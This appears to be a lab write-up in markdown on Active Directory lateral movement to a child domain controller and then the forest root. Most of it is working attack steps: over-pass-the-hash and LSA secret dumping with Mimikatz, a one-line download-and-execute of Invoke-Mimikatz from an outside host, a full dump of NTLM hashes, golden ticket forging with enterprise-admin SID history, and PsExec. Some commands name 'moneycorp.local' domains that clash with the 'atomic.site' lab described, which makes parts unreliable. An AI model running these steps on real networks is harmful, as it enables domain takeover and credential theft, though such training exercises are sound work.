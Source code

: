 # Lateral Movement 2 - Child DC

- [Lateral Movement 2 - Child DC](#lateral-movement-2---child-dc)
  - [Over Pass-the-Hash to Child DC](#over-pass-the-hash-to-child-dc)
  - [Dumping the Forest Trust key](#dumping-the-forest-trust-key)
  - [Inter-realm TGT](#inter-realm-tgt)

----

## Over Pass-the-Hash to Child DC

Recall in the previous session, we have the following NTLM in the `OPERATIONS` domain:

* Krbtgt NTLM: `8e2b8effbf6735b8fb5be206cb3dfead`
* Administrator NTLM: `5984a430e639891136c94918e6846f24`

<br/>

Use Over-pass-the-hash technique to become Administrator:

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:operations.atomic.site /user:administrator /ntlm:5984a430e639891136c94918e6846f24 /run:powershell.exe"'
```

![picture 49](images/80eb084c86455d5825253a1fa78d891e0ba4e1539d1327267787c73f665c2e8b.png)  

<br/>

Get a PS Session on the Child DC:

```
Enter-PSSession -ComputerName OPS-CHILDDC.operations.atomic.site
```

<br/>

Then import Mimikatz:

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.11/Invoke-Mimikatz.ps1"))
```

![picture 50](images/56f1f7a53a4d81dcc3107b8a157e4eec6d8221459239a674433c9b635fcbb79d.png)  

<br/>

## Dumping the Forest Trust key

Use `Mimikatz` to dump the forest trust key:

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : OPERATIONS / S-1-5-21-3757735274-1965336150-1982876978

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 5984a430e639891136c94918e6846f24

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 8e2b8effbf6735b8fb5be206cb3dfead

RID  : 000001f7 (503)
User : DefaultAccount
LM   :
NTLM :

RID  : 00000456 (1110)
User : sysadmin
LM   :
NTLM : 33da4461cc64d97d6766bea54d8824c7

RID  : 0000045a (1114)
User : support
LM   :
NTLM : dd8ab1ad74d9faf1900eac349c8fb3e5

RID  : 0000045b (1115)
User : homi
LM   :
NTLM : 4d32b988b70b389423886883f666ed66

RID  : 0000045c (1116)
User : iyer
LM   :
NTLM : 493483461831ba82fe193fe01653da6a

RID  : 0000045d (1117)
User : sri
LM   :
NTLM : 50e3b28275dc32db9f2e82b2e25968e2

RID  : 0000045e (1118)
User : srv-db
LM   :
NTLM : c60cc979b81b15f2e23848eac75bef16

RID  : 0000045f (1119)
User : srv-auto
LM   :
NTLM : ea06afda9cb34106ddaf747108eb1af1

RID  : 00000461 (1121)
User : adm_domain
LM   :
NTLM : 3d15cb1141d579823f8bb08f1f23e316

RID  : 00000466 (1126)
User : iisadmin
LM   :
NTLM : 7e44e374b6a9d37380d77970d8e2e2dc

RID  : 000003e8 (1000)
User : OPS-CHILDDC$
LM   :
NTLM : 3ab1547f1844b80e510a97a7031e5f4c

RID  : 00000457 (1111)
User : DB-SERVER$
LM   :
NTLM : 9d80143c32cbd216c7e7e7fff0e22c40

RID  : 00000458 (1112)
User : REPO-SERVER$
LM   :
NTLM : f3cbb96681af765b402de7b8624f8f5c

RID  : 00000459 (1113)
User : AUTOMATION-SERV$
LM   :
NTLM : c8b008446e85f2fead3be7d1cd862711

RID  : 00000c1d (3101)
User : SCIENTIST-MACHI$
LM   :
NTLM : 8d3aaa614d4742cdaeea2c7574638331

RID  : 0000044f (1103)
User : ATOMIC$
LM   :
NTLM : c121b0c32c9d5b452d37d51fa6be57c0
```

![picture 51](images/60d62c7fe7176c809e61efd4cc4ba59ab3bccc14388c894e83c8c1eda3cfc232.png)  

* Forest Trust Key: `72cc4221252de3dfd2b5446f5b8c0f10`

![picture 2](images/383776a572805e2383488b201ba4d1fa719e2d8117eae548e29876676e82ffb9.png)  

* `krbtgt` NTLM: `8e2b8effbf6735b8fb5be206cb3dfead`

<br/>

## Inter-realm TGT

To forge inter-realm TGT, we need the following information:
- `/domain`: The current domain `operations.atomic.site`
  
- `/user`: `Administrator`
  
- `/sid`: SID of the current domain
  
  - Shown in the LSADUMP: `S-1-5-21-3757735274-1965336150-1982876978`
  
- `/sids`: SID of the Enterprise Admins Group
  
  - Use PowerView: `Get-NetForest`
  - Enterprise Admins Group = `519`
  - SID = `S-1-5-21-95921459-2896253700-3873779052-519`

![picture 3](images/eb604cc66d9e0852cc153ff8703983b8a03a2fb0284f64c3c4280acf8f9c7dda.png)  


- `/krbtgt`: The NTLM of the `krbtgt` account in the current domain
  
  - Dumped using DCSync: `8e2b8effbf6735b8fb5be206cb3dfead`


Use the following command to forge a inter-realm TGT:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-3757735274-1965336150-1982876978 /sids:S-1-5-21-95921459-2896253700-3873779052-519 /krbtgt:8e2b8effbf6735b8fb5be206cb3dfead /ticket:C:\Users\Public\forged.kirbi"'
```

![picture 1](images/70bc9c4ea09c92f4a722ff538365683e9b676618c0d92a97a994e0b33a1af2fe.png)  
  

<br/>

![picture 4](images/8611ed780edd2901254db0089c7874f71735ebabaf1b9e440afe79afe7071463.png)  

<br/>

Then perform a Pass-the-Ticket:

```
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\Public\forged.kirbi"'
```

![picture 5](images/e4306a9f28a5a957c23401e5264cffc7e454b6817eae969afdeff0b2fe63e07c.png)  

<br/>

Then use PsExec to get a shell on `atomic-dc.atomic.site`:

```
.\PsExec.exe \\mcorp-dc.moneycorp.local cmd.exe -accepteula
```